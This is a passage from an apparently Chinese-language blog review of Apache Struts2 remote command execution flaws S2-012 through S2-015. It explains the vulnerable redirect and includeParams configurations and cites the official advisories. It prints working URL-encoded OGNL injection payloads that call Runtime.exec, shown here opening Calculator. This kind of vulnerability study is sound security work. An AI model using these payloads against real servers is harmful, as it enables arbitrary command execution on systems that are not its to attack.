 如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 `${param_name}` 作为重定向变量，例如：

```xml
	<package name="S2-012" extends="struts-default">
		<action name="user" class="com.demo.action.UserAction">
			<result name="redirect" type="redirect">/index.jsp?name=${name}</result>
			<result name="input">/index.jsp</result>
			<result name="success">/index.jsp</result>
		</action>
	</package>
```

这里 `UserAction` 中定义有一个 `name` 变量，当触发 `redirect` 类型返回时，Struts2 获取使用 `${name}` 获取其值，在这个过程中会对 `name` 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行：

    http://localhost:8080/S2-012/user.action?name=%25%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
    
![]({{ site.url }}/public/img/article/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/6.png)

### S2-013 | S2-014

> 官方链接：[https://struts.apache.org/docs/s2-013.html](https://struts.apache.org/docs/s2-013.html), [https://struts.apache.org/docs/s2-014.html](https://struts.apache.org/docs/s2-014.html)
> 
> 影响版本：Struts 2.0.0 - Struts 2.3.14 (Struts 2.3.14.1)
> 
> 修复摘要：在对标签进行请求参数操作时禁用 OGNL 表达式解析

Struts2 标签中 `<s:a>` 和 `<s:url>` 都包含一个 `includeParams` 属性，其值可设置为 `none`，`get` 或 `all`，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

若设置了 `includeParams="get"` 或者 `includeParams="all"`，在获取对应类型参数时后端会对参数值进行 OGNL 表达式解析，因此可以插入任意 OGNL 表达式导致命令执行：

    http://localhost:8080/S2-013/link.action?xxxx=%25%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
    
![]({{ site.url }}/public/img/article/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/7.png)

S2-014 是对 S2-013 修复的加强，在 S2-013 修复的代码中忽略了 `${ognl_exp}` OGNL 表达式执行的方式，因此 S2-014 是对其的补丁加强。

    http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D

### S2-015

> 官方链接：[https://struts.apache.org/docs/s2-015.html](https://struts.apache.org/docs/s2-015.html)
> 
> 影响版本：Struts 2.0.0 - Struts 2.3.14.2
> 
> 修复摘要：针对 Action 名称进行默认字符限制 [a-z]*[A-Z]*[0-9]*[.\-_!/]* 
